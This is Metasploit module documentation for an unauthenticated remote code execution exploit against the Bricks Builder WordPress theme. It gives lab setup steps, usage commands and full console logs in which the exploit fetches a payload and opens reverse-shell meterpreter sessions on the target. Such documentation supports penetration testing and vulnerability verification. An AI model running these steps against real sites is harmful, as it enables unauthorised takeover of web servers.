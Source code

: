 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in Bricks Builder Theme, versions prior to 1.9.6.
The vulnerability allows attackers to execute arbitrary PHP code by leveraging
a nonce leakage to bypass authentication and exploit the eval() function usage within the theme.

To replicate a vulnerable environment for testing:

1. Install WordPress.
2. Download and install the Bricks Builder Theme, ensuring the version is below 1.9.6.
3. Activate Bricks Builder.
4. Create a model with a default page (to ensure the nonce is on index.php, add some elements).

## Verification Steps

1. Set up a WordPress instance with the Bricks Builder Theme (version < 1.9.6).
2. Launch `msfconsole` in your Metasploit framework.
3. Use the module: `use exploit/multi/http/wp_bricks_builder_rce`.
4. Set `RHOSTS` to the local IP address or hostname of the target.
5. Configure necessary options such as `TARGETURI`, `SSL`, and `RPORT`.
6. Execute the exploit using the `run` or `exploit` command.
7. If the target is vulnerable, the module will execute the specified payload.

## Options

No option

## Scenarios

### Successful Exploitation Against Local WordPress with Bricks Builder Theme 1.8

**Setup**:

- Local WordPress instance with Bricks Builder Theme version 1.8.
- Metasploit Framework.

**Steps**:

1. Start `msfconsole`.
2. Load the module:
```
use exploit/multi/http/wp_bricks_builder_rce
```
4. Set `RHOSTS` to the local IP (e.g., 192.168.1.10).
5. Configure other necessary options (TARGETURI, SSL, etc.).
6. Launch the exploit:
```
exploit
```

**Expected Results**:

- The module attempts to retrieve a nonce from the local server.
- It then uploads and executes the payload.
- If successful, control over the local WordPress instance is gained, depending on the payload used.

**Example**:

With `cmd/linux/http/x64/meterpreter/reverse_tcp`:

```
msf > search bricks

Matching Modules
================

   #  Name                                      Disclosure Date  Rank       Check  Description
   -  ----                                      ---------------  ----       -----  -----------
   0  exploit/multi/http/wp_bricks_builder_rce  2024-02-19       excellent  Yes    Unauthenticated RCE in Bricks Builder Theme


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/wp_bricks_builder_rce

msf > use 0
[*] No payload configured, defaulting to cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(multi/http/wp_bricks_builder_rce) > options

Module options (exploit/multi/http/wp_bricks_builder_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.
                                         html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The URI path to WordPress
   VHOST                       no        HTTP server virtual host


Payload options (cmd/linux/http/x64/meterpreter/reverse_tcp):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   FETCH_COMMAND       CURL             yes       Command to fetch payload (Accepted: CURL, FTP, TFTP, TNFTP, WGET)
   FETCH_DELETE        false            yes       Attempt to delete the binary after execution
   FETCH_FILENAME      ilPaBylkCKr      no        Name to use on remote system when storing payload; cannot contain spaces or slashes
   FETCH_SRVHOST                        no        Local IP to use for serving payload
   FETCH_SRVPORT       8080             yes       Local port to use for serving payload
   FETCH_URIPATH                        no        Local URI to use for serving payload
   FETCH_WRITABLE_DIR                   yes       Remote writable dir to store payload; cannot contain spaces
   LHOST               192.168.1.5      yes       The listen address (an interface may be specified)
   LPORT               4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(multi/http/wp_bricks_builder_rce) > set ssl false
[!] Changing the SSL option's value may require changing RPORT!
ssl => false
msf exploit(multi/http/wp_bricks_builder_rce) > set rhosts localhost
rhosts => localhost
msf exploit(multi/http/wp_bricks_builder_rce) > set rport 8888
rport => 8888
msf exploit(multi/http/wp_bricks_builder_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Nonce retrieved: 953563d296
[*] Sending stage (3045380 bytes) to 172.20.0.2
[*] Meterpreter session 1 opened (192.168.1.5:4444 -> 172.20.0.2:39856) at 2024-02-26 21:51:11 +0100

meterpreter > sysinfo 
Computer     : 172.20.0.2
OS           : Debian 11.8 (Linux 6.4.10-060410-generic)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > 
```

With `php/meterpreter/reverse_tcp`:

```
msf exploit(multi/http/wp_bricks_builder_rce) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(multi/http/wp_bricks_builder_rce) > exploit

[*] Started reverse TCP handler on 192.168.1.5:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Nonce retrieved: 953563d296
[*] Sending stage (39927 bytes) to 172.20.0.2
[*] Meterpreter session 2 opened (192.168.1.5:4444 -> 172.20.0.2:49678) at 2024-02-26 22:02:56 +0100

meterpreter > sysinfo
Computer    : 65e1e703e433
OS          : Linux 65e1e703e433 6.4.10-060410-generic #202308111154 SMP PREEMPT_DYNAMIC Fri Aug 11 12:00:45 UTC 2023 x86_64
Meterpreter : php/linux
meterpreter > 
```
